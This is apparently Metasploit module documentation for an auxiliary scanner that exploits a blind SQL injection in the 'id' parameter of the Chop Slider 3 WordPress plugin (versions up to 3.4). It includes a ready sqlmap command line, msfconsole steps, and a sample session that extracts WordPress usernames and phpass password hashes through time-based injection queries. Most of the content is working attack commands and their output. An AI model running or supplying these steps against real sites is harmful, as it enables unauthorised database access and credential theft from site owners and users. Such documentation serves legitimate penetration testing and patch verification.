 ## Vulnerable Application

The iDangero.us Chop Slider 3 WordPress plugin 3.4 and prior
contains a blind SQL injection in the `id` parameter of the
`get_script/index.php` page.  The injection is passed through `GET`
parameters, and thus must be encoded, and magic_quotes is applied at the server.

The plugin can be downloaded from
[github](https://github.com/idangerous/Plugins/blob/master/Chop%20Slider%203/Chop%20Slider%203%20Wordpress/Wordpress_ChopSlider_3_4.zip)

This module slightly replicates sqlmap running as:

```
sqlmap -u 'http://local.target/wp-content/plugins/chopslider/get_script/index.php?id=1111111111' --level=5 --risk=3 --technique=B
```

## Verification Steps

1. Install the plugin and activate it
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_chopslider_id_sqli`
1. Do: `set rhosts [ip]`
1. Do: `run`
1. You should get a dump of usernames and password hashes.

## Options

### ACTION: List Users

This action lists `COUNT` users and password hashes.

### COUNT

If Action `List Users` is selected (default), this is the number of users to enumerate.
The larger this list, the more time it will take.  Defaults to `1`.

## Scenarios

### iDangero.us Chop Slider 3.4 on Wordpress 5.4.4 running on Ubuntu 20.04.

```
resource (chopslider.rb)> use auxiliary/scanner/http/wp_chopslider_id_sqli
resource (chopslider.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (chopslider.rb)> set verbose true
verbose => true
resource (chopslider.rb)> set count 3
count => 3
resource (chopslider.rb)> run
[*] Version detected: 3.4
[+] Vulnerable version detected
[*] Enumerating Usernames
[*] {SQLi} Executing (select group_concat(qlJEzvIJY) from (select cast(ifnull(user_login,'') as binary) qlJEzvIJY from wp_users limit 3) DSKc)
[*] {SQLi} Time-based injection: expecting output of length 19
[*] Enumerating Password Hashes
[*] {SQLi} Executing (select group_concat(NtxL) from (select cast(ifnull(user_pass,'') as binary) NtxL from wp_users limit 3) YztNPLK)
[*] {SQLi} Time-based injection: expecting output of length 104
[+] wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/
 editor      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/wp_chopslider_id_sqli) > creds
Credentials
===========

host  origin         service  public  private                             realm  private_type        JtR Format
----  ------         -------  ------  -------                             -----  ------------        ----------
      111.111.1.111           editor  $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1         Nonreplayable hash  phpass
      111.111.1.111           admin2  $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/         Nonreplayable hash  phpass
      111.111.1.111           admin   $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0         Nonreplayable hash  phpass
```
